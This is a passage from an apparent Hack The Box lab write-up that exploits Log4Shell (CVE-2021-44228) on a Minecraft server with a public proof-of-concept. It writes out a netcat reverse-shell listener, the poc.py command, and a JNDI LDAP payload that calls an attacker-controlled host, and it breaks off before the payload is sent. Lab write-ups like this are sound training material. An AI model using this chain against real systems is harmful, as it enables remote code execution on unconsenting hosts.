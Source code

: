 To make this exploit work, we need to download the relevant dependencies as mentioned in the exploit GitHub page:

```bash
pip install -r requirements.txt
```

Get the compatible version of Java, i.e., '8u20'. Extract and save it with the name 'jdk1.8.0_20' in the same path as that of poc.py file. [Java SE 8 Archive Downloads](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

Go to the downloaded POC folder and use this command to download the file (for Linux 64-bit systems):

```bash
wget -c --no-cookies --no-check-certificate --header "Cookie: oraclelicense=accept-securebackup-cookie" https://download.oracle.com/otn/java/jdk/8u202-b08/1961070e4c9b4e26a04e7f5a083f551e/jdk-8u202-linux-x64.tar.gz
```

After installing all the dependencies, initiate the Minecraft client to connect to the server:

```bash
┌──(root💀kali)-[/home/kali/Minecraft-Console-Client]
└─# ./MinecraftClient-20240130-245-linux-x64 <username>
```


![[Pasted image 20240219014106.png]]

(Note: Press enter when it prompts for a password, as in setting no password. Input server IP (HTB target IP), and we should be connected to the server)

[start netcat listener in 2nd tab]

```bash
nc -nvlp 9001
```

[Execute the POC script in the third tab]

```bash
$ python3 poc.py --userip 10.10.14.122 --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit Java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://10.10.14.122:1389/a}

Listening on 10.10.14.122:1389
```

(If you are connected to HTB VPN, be sure to select the IP associated with the HTB VPN in `--userip`)

Now we need to send this command in the Minecraft console:
